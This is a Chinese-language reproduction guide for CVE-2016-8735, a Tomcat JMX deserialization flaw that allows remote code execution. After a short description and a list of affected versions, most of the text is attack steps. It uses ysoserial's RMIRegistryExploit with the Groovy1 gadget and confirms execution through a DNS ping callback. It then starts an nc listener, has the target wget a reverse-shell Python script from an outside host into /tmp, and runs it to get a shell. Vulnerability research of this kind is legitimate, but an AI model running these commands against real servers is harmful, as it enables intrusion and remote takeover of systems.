 （CVE-2016-8735）Tomcat 反序列化漏洞
====================================

一、漏洞简介
------------

该漏洞与之前Oracle发布的mxRemoteLifecycleListener反序列化漏洞（CVE-2016-3427）相关，是由于使用了JmxRemoteLifecycleListener的监听功能所导致。而在Oracle官方发布修复后，Tomcat未能及时修复更新而导致的远程代码执行。
该漏洞所造成的最根本原因是Tomcat在配置JMX做监控时使用了JmxRemoteLifecycleListener的方法。

二、漏洞影响
------------

ApacheTomcat 9.0.0.M1 到9.0.0.M11 ApacheTomcat 8.5.0 到8.5.6
ApacheTomcat 8.0.0.RC1 到8.0.38 ApacheTomcat 7.0.0 到7.0.72 ApacheTomcat
6.0.0 到6.0.47

三、复现过程
------------

### 漏洞利用条件：

外部需要开启JmxRemoteLifecycleListener监听的10001和10002端口，来实现远程代码执行。

### 构造命令

Win ping一次命令：

    ping -n 1 qjkpla.ceye.io

Linux ping 一次命令：

    ping -c 1 qjkpla.ceye.io

利用Ceye回显看是否存在漏洞:

    java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "ping -c Groovy1.test.qjkpla.ceye.io"

![](./resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId26.png)

DNS回显能返回数据，说明执行了Ping命令，也就是说漏洞存在

![](./resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId27.png)

直接NC监听服务：

    nc -l -vv 12555

![](./resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId28.png)

然后构造命令：下载我们的反弹脚本:(之前用bash命令反弹没有成功所以使用Python脚本进行反弹)

    java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "wget http://rinige.com/back.py -O /tmp/x.py"

执行完此命令继续构造命令，去执行刚在wget的脚本

    java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口Groovy1 "python /tmp/x.py 反弹主机地址 反弹端口"

![](./resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId29.png)

成功反弹：

![](./resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId30.png)

image
